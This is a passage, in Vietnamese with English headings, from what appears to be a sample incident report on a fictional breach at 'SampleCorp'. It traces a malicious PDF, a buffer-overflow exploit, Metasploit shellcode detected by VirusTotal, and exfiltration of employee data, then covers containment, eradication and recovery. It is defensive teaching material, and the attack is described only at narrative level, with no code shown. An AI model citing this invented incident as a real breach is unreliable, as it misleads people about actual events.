	- `April 22nd, 2019, 01:30:12`: Thực thể trái phép đã tìm thấy một cơ sở dữ liệu không được mã hoá trên `HR01.samplecorp.com` chứa dữ liệu nhạy cảm của nhân viên và đối tác, bao gồm số An sinh xã hội và thông tin lương. Họ đã nén dữ liệu này và tuồn nó ra một server bên ngoài thông qua một tunnel `SSH` bảo mật.
- C2 Communications (liên lạc C2)
	- Một thực thể trái phép đã giành được quyền truy cập vật lý vào mạng nội bộ của SampleCorp. Địa chỉ IP Command and Control (C2) được xác định là một địa chỉ nội bộ: `192.168.220.66`.
- Malware Deployment or Activity (triển khai hoặc hoạt động của malware)
	- Malware được phát tán qua một tài liệu PDF độc hại và sử dụng rộng rãi các binary hợp lệ của Windows cho các mục đích staging, thực thi lệnh và hậu khai thác (post-exploitation).
	- Sau đó, shellcode đã được sử dụng bên trong một payload buffer overflow để lây nhiễm `HR01.samplecorp.com`.
- Containment Times (thời điểm ngăn chặn)
	- `April 22nd, 2019, 02:30:11`: Các đội SOC và DFIR của SampleCorp đã phát hiện các hoạt động trái phép và ngay lập tức cô lập `WKST01.samplecorp.com` và `HR01.samplecorp.com` khỏi mạng bằng phân đoạn VLAN.
	- `April 22nd, 2019, 03:10:14`: Các đội SOC và DFIR của SampleCorp đã gắn một giải pháp bảo mật host vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com` để thu thập thêm dữ liệu từ các hệ thống bị ảnh hưởng.
	- `April 22nd, 2019, 03:43:34`: Các firewall rule đã được cập nhật để chặn địa chỉ IP C2 đã biết, qua đó cắt đứt hiệu quả quyền truy cập từ xa của thực thể trái phép.
- Eradication Times (thời điểm loại bỏ)
	- `April 22nd, 2019, 04:11:00`: Một công cụ chuyên dụng gỡ bỏ malware đã được sử dụng để làm sạch malware đã triển khai khỏi cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com`.
	- `April 22nd, 2019, 04:30:00`: Tất cả các hệ thống, bắt đầu từ `WKST01.samplecorp.com`, đã được cập nhật lên phiên bản `Acrobat Reader` mới nhất, giảm thiểu lỗ hổng đã dẫn đến vụ xâm nhập ban đầu.
	- `April 22nd, 2019, 05:01:08`: Các API key đã bị thực thể trái phép truy cập đã được thu hồi.
	- `April 22nd, 2019, 05:05:08`: Thông tin đăng nhập của người dùng đã mở file `cv.pdf`, cũng như của những người dùng gần đây đã đăng nhập vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com`, đã được đặt lại (reset).
- Recovery Times (thời điểm khôi phục)
	- `April 22nd, 2019, 05:21:20`: Sau khi đảm bảo `WKST01.samplecorp.com` đã sạch malware, đội SOC đã khôi phục hệ thống từ một bản backup đã được xác minh.
	- `April 22nd, 2019, 05:58:50`: Sau khi đảm bảo `HR01.samplecorp.com` đã sạch malware, đội SOC đã khôi phục hệ thống từ một bản backup đã được xác minh.
	- `April 22nd, 2019, 06:33:44`: Đội phát triển đã tung ra một bản vá khẩn cấp cho lỗ hổng `buffer overflow` trong ứng dụng HR độc quyền, bản vá này sau đó được triển khai lên `HR01.samplecorp.com`.

#### Bản chất của cuộc tấn công

    

				 
Trong phần này, chúng ta cần mổ xẻ tỉ mỉ phương thức hoạt động (modus operandi) của thực thể trái phép, làm sáng tỏ các tactic, technique và procedure (TTP) cụ thể mà họ đã sử dụng trong suốt quá trình xâm nhập. Ví dụ, hãy cùng đi sâu vào các phương pháp mà đội SOC đã dùng để xác định rằng thực thể trái phép đã sử dụng Metasploit framework trong các hoạt động của mình.

    

**Phát hiện Metasploit**

Để hiểu rõ hơn các tactic và technique của thực thể trái phép, chúng tôi đã đi sâu vào các lệnh PowerShell độc hại đã được thực thi.

Đặc biệt là lệnh được thể hiện trong ảnh chụp màn hình dưới đây.



Khi kiểm tra, có thể thấy rõ kỹ thuật mã hoá kép (double encoding) đã được sử dụng, nhiều khả năng nhằm vượt qua các cơ chế phát hiện. Đội SOC đã giải mã thành công payload độc hại, làm lộ ra chính xác đoạn code PowerShell được thực thi trong bộ nhớ của `WKST01.samplecorp.com`.



Bằng cách tận dụng thông tin tình báo nguồn mở (open source intelligence – OSINT), đội SOC của chúng tôi xác định rằng đoạn code PowerShell này nhiều khả năng có liên quan đến framework hậu khai thác (post-exploitation) [Metasploit](https://github.com/rapid7/metasploit-framework).

Để củng cố giả thuyết rằng `Metasploit` đã được sử dụng, chúng tôi đi sâu hơn vào shellcode đã phát hiện. Cụ thể, chúng tôi đã export các byte của gói tin chứa shellcode (thành `a.bin`) và sau đó gửi chúng lên VirusTotal để đánh giá.







Kết quả từ VirusTotal đã khẳng định nghi ngờ của chúng tôi rằng `Metasploit` đã được sử dụng. Cả `metacoder` và `shikata` đều gắn liền với shellcode do Metasploit tạo ra.

---

## Impact Analysis (Phân tích tác động)

    

				 
Trong phần này, chúng ta cần đi sâu hơn vào phân tích tác động ban đầu đến các bên liên quan đã được trình bày ở đầu báo cáo. Xét đến cấu trúc nội bộ đặc thù, bối cảnh kinh doanh và các nghĩa vụ pháp lý của công ty, điều quan trọng là phải đưa ra một đánh giá toàn diện về các hệ quả của sự cố đối với từng bên bị ảnh hưởng. 

    

---

## Response and Recovery Analysis (Phân tích phản ứng và khôi phục)

#### Các hành động phản ứng tức thời

**Thu hồi quyền truy cập (Revocation of Access)**
- `Identification of Compromised Accounts/Systems`: Sử dụng giải pháp Elastic SIEM, các hoạt động đáng ngờ liên quan đến truy cập trái phép đã được gắn cờ trên `WKST01.samplecorp.com`. Sau đó, việc kết hợp phân tích lưu lượng và phân tích log đã phát hiện thêm truy cập trái phép trên `HR01.samplecorp.com`.
- `Timeframe`: Các hoạt động trái phép được phát hiện lúc `April 22, 2019, 01:05:00`. Quyền truy cập bị chấm dứt vào lúc `April 22nd, 2019, 03:43:34` sau khi cập nhật firewall rule để chặn địa chỉ IP C2.
- `Method of Revocation`: Bên cạnh các firewall rule, các chính sách Active Directory đã được áp dụng để buộc đăng xuất các phiên của những tài khoản có khả năng bị xâm phạm. Ngoài ra, thông tin đăng nhập của người dùng bị ảnh hưởng đã được đặt lại và các API key bị truy cập đã bị thu hồi, ngăn chặn thêm việc truy cập trái phép.
- `Impact`: Việc thu hồi quyền truy cập ngay lập tức đã chặn đứng khả năng lateral movement, ngăn chặn việc hệ thống bị xâm phạm thêm và các nỗ lực tuồn dữ liệu ra ngoài.

**Chiến lược ngăn chặn (Containment Strategy)**
- `Short-term Containment`: Trong phản ứng ban đầu, phân đoạn VLAN đã được áp dụng kịp thời, cô lập hiệu quả `WKST01.samplecorp.com` và `HR01.samplecorp.com` khỏi phần còn lại của mạng, và cản trở mọi hoạt động lateral movement của threat actor.
- `Long-term Containment`: Giai đoạn ngăn chặn tiếp theo bao gồm việc triển khai phân đoạn mạng (network segmentation) chặt chẽ hơn, đảm bảo các phòng ban cụ thể hoặc hạ tầng trọng yếu chạy trên các phân đoạn mạng tách biệt, cùng với các biện pháp kiểm soát truy cập mạng mạnh mẽ, đảm bảo chỉ những thiết bị được cấp phép mới có quyền truy cập vào mạng nội bộ của tổ chức. Cả hai sẽ giúp thu hẹp bề mặt tấn công (attack surface) trước các mối đe doạ trong tương lai.
- `Effectiveness`: Các chiến lược ngăn chặn đã thành công trong việc đảm bảo threat actor không leo thang đặc quyền (escalate privileges) hoặc di chuyển sang các hệ thống lân cận, qua đó hạn chế tác động của sự cố.

#### Các biện pháp loại bỏ (Eradication)

**Gỡ bỏ malware (Malware Removal)**
- `Identification`: Các process đáng ngờ đã được gắn cờ trên các hệ thống bị xâm phạm, và một cuộc kiểm tra forensic chuyên sâu đã phát hiện dấu vết của framework hậu khai thác `Metasploit`, điều này sau đó được xác nhận thêm qua phân tích bằng `VirusTotal`.
- `Removal Techniques`: Sử dụng một công cụ chuyên dụng gỡ bỏ malware, tất cả các payload độc hại đã xác định đều được loại bỏ khỏi `WKST01.samplecorp.com` và `HR01.samplecorp.com`.
- `Verification`: Sau khi gỡ bỏ, một lần quét thứ hai đã được khởi chạy và một phân tích heuristic đã được thực hiện để đảm bảo không còn tàn dư nào của malware tồn tại.

**Vá hệ thống (System Patching)**
- `Vulnerability Identification`: Một phiên bản `Acrobat Reader` có lỗ hổng đã được xác định, là nguyên nhân dẫn đến vụ xâm nhập ban đầu. Việc đối chiếu với các lỗ hổng đã biết cho thấy khả năng một exploit đã được sử dụng. Một lỗ hổng `buffer overflow` trong một ứng dụng độc quyền do SampleCorp phát triển cũng đã được xác định.
- `Patch Management`: Tất cả các hệ thống đã được cập nhật kịp thời lên phiên bản `Acrobat Reader` mới nhất, vốn đã khắc phục lỗ hổng đã biết. Đội phát triển đã tung ra một bản vá khẩn cấp cho lỗ hổng `buffer overflow` trong ứng dụng HR độc quyền, bản vá này sau đó được triển khai lên `HR01.samplecorp.com`. Việc vá được thực hiện theo từng giai đoạn, ưu tiên các hệ thống quan trọng.
- `Fallback Procedures`: Snapshot và cấu hình hệ thống đã được sao lưu trước quá trình vá, đảm bảo có thể rollback nhanh chóng nếu bản cập nhật gây ra bất kỳ sự mất ổn định nào cho hệ thống.

#### Các bước khôi phục

**Khôi phục dữ liệu (Data Restoration)**
- `Backup Validation`: Trước khi khôi phục dữ liệu, checksum của các bản backup đã được đối chiếu chéo để đảm bảo tính toàn vẹn của dữ liệu sao lưu.
- `Restoration Process`: Đội SOC đã khôi phục tỉ mỉ cả hai hệ thống bị ảnh hưởng từ các bản backup đã được xác thực.
- `Data Integrity Check`s:  Sau khi khôi phục, kỹ thuật băm mật mã (cryptographic hashing) dùng SHA-256 đã được áp dụng để xác minh tính toàn vẹn và tính xác thực của dữ liệu đã khôi phục.

**Xác thực hệ thống (System Validation)**
- `Security Measures`: Firewall và hệ thống phát hiện xâm nhập (intrusion detection system) của các hệ thống đã được cập nhật với các nguồn threat intelligence feed mới nhất, đảm bảo bất kỳ dấu hiệu xâm phạm (IoC) nào từ sự cố này cũng sẽ kích hoạt alert ngay lập tức.
- `Operational Checks`: Trước khi đưa các hệ thống trở lại môi trường thực (live environment), một loạt các bài kiểm thử vận hành, bao gồm load testing và stress testing, đã được thực hiện để xác nhận tính ổn định và hiệu năng của hệ thống.

#### Các hành động sau sự cố

**Giám sát (Monitoring)**
- `Enhanced Monitoring Plans`: Mô hình giám sát đã được cải tổ để bao gồm phân tích hành vi (behavioral analytics), tập trung phát hiện các sai lệch so với hành vi baseline có thể là dấu hiệu bị xâm phạm. Ngoài ra, các hoạt động kiểm kê và quản lý tài sản (inventory and asset management) đã được bắt đầu để hỗ trợ việc triển khai kiểm soát truy cập mạng.
- `Tools and Technologies`: Tận dụng khả năng của Elastic SIEM hiện có, các correlation rule nâng cao sẽ được triển khai, được thiết kế riêng để phát hiện các tactic, technique và procedure (TTP) đã xác định trong vụ xâm phạm này.

**Bài học rút ra (Lessons Learned)**
- `Gap Analysis`: Sự cố đã làm lộ ra một số lỗ hổng, chủ yếu xoay quanh kiểm soát truy cập mạng, lọc email (email filtering), phân tách mạng, và đào tạo người dùng về các nỗ lực phishing tiềm tàng sử dụng tài liệu độc hại.
- `Recommendations for Improvement`: Các sáng kiến về kiểm kê và quản lý tài sản, lọc email, và cải thiện chương trình đào tạo nâng cao nhận thức bảo mật (security awareness training) được ưu tiên.
- `Future Strategy`: Chiến lược hướng tới tương lai sẽ bao gồm kiểm soát truy cập mạng và phân đoạn mạng chi tiết hơn, áp dụng mô hình bảo mật zero-trust, và tăng đầu tư cho cả đào tạo nâng cao nhận thức bảo mật lẫn lọc email.

---

## Annex A (Phụ lục A)

#### Technical Timeline (Dòng thời gian kỹ thuật)

|Thời gian|Hoạt động|
|-------|-------|
|`April 22nd, 2019, 00:27:27`|Một nhân viên đã mở một tài liệu PDF độc hại (`cv.pdf`) trên `WKST01.samplecorp.com`, tài liệu này đã khai thác một lỗ hổng đã biết trong một phiên bản `Acrobat Reader` lỗi thời. Điều này dẫn đến việc thực thi một payload độc hại, giúp thiết lập chỗ đứng ban đầu (initial foothold) trên hệ thống.|
|`April 22nd, 2019, 00:35:09`|Thực thể trái phép đã truy cập nhiều thư mục khác nhau trên `WKST01.samplecorp.com` chứa cả mã nguồn độc quyền lẫn các API key.|
|`April 22nd, 2019, 00:50:18`|Thực thể trái phép đã tận dụng quyền truy cập ban đầu để thực hiện trinh sát mạng nội bộ. Họ phát hiện một lỗ hổng `buffer overflow` trong một ứng dụng HR độc quyền đang chạy trên `HR01.samplecorp.com`. Bằng một payload được chế tạo riêng, họ đã khai thác lỗ hổng này để giành quyền truy cập trái phép vào hệ thống HR.|
|`April 22nd, 2019, 01:30:12`|Thực thể trái phép đã tìm thấy một cơ sở dữ liệu không được mã hoá trên `HR01.samplecorp.com` chứa dữ liệu nhạy cảm của nhân viên và đối tác, bao gồm số An sinh xã hội và thông tin lương. Họ đã nén dữ liệu này và tuồn nó ra một server bên ngoài thông qua một tunnel `SSH` bảo mật.|
|`April 22nd, 2019, 02:30:11`|Các đội SOC và DFIR của SampleCorp đã phát hiện các hoạt động trái phép và ngay lập tức cô lập `WKST01.samplecorp.com` và `HR01.samplecorp.com` khỏi mạng bằng phân đoạn VLAN.|
|`April 22nd, 2019, 03:10:14`|Các đội SOC và DFIR của SampleCorp đã gắn một giải pháp bảo mật host vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com` để thu thập thêm dữ liệu từ các hệ thống bị ảnh hưởng.|
|`April 22nd, 2019, 03:43:34`|Các firewall rule đã được cập nhật để chặn địa chỉ IP C2 đã biết, qua đó cắt đứt hiệu quả quyền truy cập từ xa của thực thể trái phép.|
|`April 22nd, 2019, 04:11:00`|Một công cụ chuyên dụng gỡ bỏ malware đã được sử dụng để làm sạch malware đã triển khai khỏi cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com`.|
|`April 22nd, 2019, 04:30:00`|Tất cả các hệ thống, bắt đầu từ `WKST01.samplecorp.com`, đã được cập nhật lên phiên bản `Acrobat Reader` mới nhất, giảm thiểu lỗ hổng đã dẫn đến vụ xâm nhập ban đầu.|
|`April 22nd, 2019, 05:01:08`|Các API key đã bị thực thể trái phép truy cập đã được thu hồi.|
|`April 22nd, 2019, 05:05:08`|Thông tin đăng nhập của người dùng đã mở file `cv.pdf`, cũng như của những người dùng gần đây đã đăng nhập vào cả `WKST01.samplecorp.com` lẫn `HR01.samplecorp.com`, đã được đặt lại (reset).|
|`April 22nd, 2019, 05:21:20`|Sau khi đảm bảo `WKST01.samplecorp.com` đã sạch malware, đội SOC đã khôi phục hệ thống từ một bản backup đã được xác minh.|
|`April 22nd, 2019, 05:58:50`|Sau khi đảm bảo `HR01.samplecorp.com` đã sạch malware, đội SOC đã khôi phục hệ thống từ một bản backup đã được xác minh.|
|`April 22nd, 2019, 06:33:44`|Đội phát triển đã tung ra một bản vá khẩn cấp cho lỗ hổng `buffer overflow` trong ứng dụng HR độc quyền, bản vá này sau đó được triển khai lên `HR01.samplecorp.com`.|
